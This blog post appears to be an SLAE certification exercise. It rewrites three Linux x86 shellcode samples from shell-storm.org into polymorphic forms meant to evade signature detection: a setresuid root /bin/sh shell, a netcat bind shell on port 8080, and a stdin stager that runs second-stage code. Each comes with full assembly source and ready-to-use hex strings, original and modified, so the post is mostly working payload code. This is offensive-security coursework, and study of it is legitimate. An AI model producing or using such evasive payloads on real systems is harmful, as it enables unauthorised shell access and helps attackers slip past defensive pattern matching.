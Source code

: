 ```yaml
---
layout: post
title: Creating Polymorphic Shellcode
date: 2018-09-21
categories:
  - security
  - shellcoding
tags:
  - securitytube
  - slae
---
```


Assignment 6 of the [SecurityTube Linux Assembly Expert Certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) consists of taking three shellcode samples from [shell-storm.org](http://shell-storm.org/) and creating polymorphic examples that are no larger than 150% the original size.

The goal of this task is to mimic the same original functionality, but to beat pattern matching techniques that could be used to fingerprint the payload.

Below are the three samples that I chose to use and the polymorphic version of each that I created.

Sample 1: setresuid(0,0,0)-/bin/sh
----------------------------------
* **Original length:** 35 bytes
* **Polymorphic length:** 51 bytes (45% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-216.php](http://shell-storm.org/shellcode/files/shellcode-216.php)

**Original code:**
```nasm
;setresuid(0,0,0)
xor eax, eax
xor ebx, ebx
xor ecx, ecx
cdq
mov BYTE al, 0xa4
int 0x80

;execve("/bin//sh", ["/bin//sh", NULL], [NULL])
push BYTE 11
pop eax
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push ecx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
```

```
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    ; setresuid(0,0,0)
    lea     eax, [0xab32a1a5]
    sub     eax, 0xab32a101
    cdq
    mov     ebx, edx
    mov     ecx, ebx
    int     0x80

    ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
    push    ebx
    xor     eax, eax
    mov     al, 0xb
    mov     edi, 0xd34db3ef
    mov     ebx, 0xbb3e9cc0
    xor     ebx, edi
    push    ebx
    mov     ebx, 0xbd24d1c0
    xor     ebx, edi
    push    ebx
    push    edx
    lea     ebx, [esp + 4]
    int     0x80
```

```
\x8d\x05\xa5\xa1\x32\xab\x2d\x01\xa1\x32\xab\x99\x89\xd3\x89\xd9\xcd\x80\x53\x31\xc0\xb0\x0b\xbf\xef\xb3\x4d\xd3\xbb\xc0\x9c\x3e\xbb\x31\xfb\x53\xbb\xc0\xd1\x24\xbd\x31\xfb\x53\x52\x8d\x5c\x24\x04\xcd\x80
```

Sample 2: netcat bindshell port 8080
------------------------------------
* **Original length:** 75 bytes
* **Polymorphic length:** 85 bytes (13% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-684.php](http://shell-storm.org/shellcode/files/shellcode-684.php)

**Original code:**
```
00000000  EB2A              jmp short 0x2c
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884607            mov [esi+0x7],al
00000008  88460F            mov [esi+0xf],al
0000000B  884619            mov [esi+0x19],al
0000000E  89761A            mov [esi+0x1a],esi
00000011  8D5E08            lea ebx,[esi+0x8]
00000014  895E1E            mov [esi+0x1e],ebx
00000017  8D5E10            lea ebx,[esi+0x10]
0000001A  895E22            mov [esi+0x22],ebx
0000001D  894626            mov [esi+0x26],eax
00000020  B00B              mov al,0xb
00000022  89F3              mov ebx,esi
00000024  8D4E1A            lea ecx,[esi+0x1a]
00000027  8D5626            lea edx,[esi+0x26]
0000002A  CD80              int 0x80
0000002C  E8D1FFFFFF        call 0x2
00000031  2F                das
00000032  62696E            bound ebp,[ecx+0x6e]
00000035  2F                das
00000036  6E                outsb
00000037  6323              arpl [ebx],sp
00000039  2D6C703830        sub eax,0x3038706c
0000003E  3830              cmp [eax],dh
00000040  232D652F6269      and ebp,[dword 0x69622f65]
00000046  6E                outsb
00000047  2F                das
00000048  7368              jnc 0xb2
0000004A  23                db 0x23
```

```
\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x23
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    mov   edi, 0x01010101
    mov   ecx, edi
    xor   ecx, edi

    push  0x01010169
    push  0x722e6f68
    push  0x632e642c
    push  0x01303931
    push  0x39716d2c
    push  0x01626f2e
    push  0x6f68632e
    push  edi

    mov   cl, 0x8
    mov   bl, 0x4

  decode:
    mov   eax, ecx
    sub   eax, 0x1
    mul   ebx
    xor   [esp + eax], edi
    loop  decode

    mov   al, 0xc
    sub   al, 0x1
    lea   ebx, [esp + 0x4]
    lea   edx, [ebx + 0x8]
    push  edx
    lea   edx, [ebx + 0x10]
    push  edx
    push  ebx
    lea   ecx, [esp]
    xor   edx, edx
    int   0x80
```

```
\xbf\x01\x01\x01\x01\x89\xf9\x31\xf9\x68\x69\x01\x01\x01\x68\x68\x6f\x2e\x72\x68\x2c\x64\x2e\x63\x68\x31\x39\x30\x01\x68\x2c\x6d\x71\x39\x68\x2e\x6f\x62\x01\x68\x2e\x63\x68\x6f\x57\xb1\x08\xb3\x04\x89\xc8\x83\xe8\x01\xf7\xe3\x31\x3c\x04\xe2\xf4\xb0\x0c\x2c\x01\x8d\x5c\x24\x04\x8d\x53\x08\x52\x8d\x53\x10\x52\x53\x8d\x0c\x24\x31\xd2\xcd\x80
```

Sample 3: stager that reads second stage shellcode (127 bytes maximum) from stdin
----------------------------------------------------------------------------------
* **Original length:** 14 bytes
* **Polymorphic length:** 18 bytes (28% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-824.php](http://shell-storm.org/shellcode/files/shellcode-824.php)

**Original code:**
```c
/*
 * (linux/x86) stagger that reads second stage shellcode (127 bytes maximum) from stdin - 14 bytes
 * _fkz / twitter: @_fkz
 *
 * sc = "\x6A\x7F\x5A\x54\x59\x31\xDB\x6A\x03\x58\xCD\x80\x51\xC3"
 *
 * Example of use:
 * (echo -ne "\xseconde stage shellcode\x"; cat) | ./stager
 */

 char shellcode[] =

 		"\x6A\x7F"		//	push	byte	+0x7F
 		"\x5A"			//	pop		edx
 		"\x54"			//	push	esp
 		"\x59"			//	pop		esp
 		"\x31\xDB"		//	xor		ebx,ebx
 		"\x6A\x03"		//	push	byte	+0x3
 		"\x58"			//	pop		eax
 		"\xCD\x80"		//	int		0x80
 		"\x51"			//	push	ecx
 		"\xC3";			//	ret

int main(int argc, char *argv[])
{
	void (*execsh)() = (void *)&shellcode;
	execsh();
	return 0;
}
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    lea   ecx, [esp]
    xor   eax, eax
    cdq
    mov   ebx, edx
    mov   eax, ebx
    mov   al, 0x3
    mov   dl, 0x7f
    int   0x80
    call  ecx
```

```
\x8d\x0c\x24\x31\xc0\x99\x89\xd3\x89\xd8\xb0\x03\xb2\x7f\xcd\x80\xff\xd1
```

<hr />

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/).

Student ID: SLAE-1340

All source files can be found on GitHub at [https://github.com/rastating/slae](https://github.com/rastating/slae)
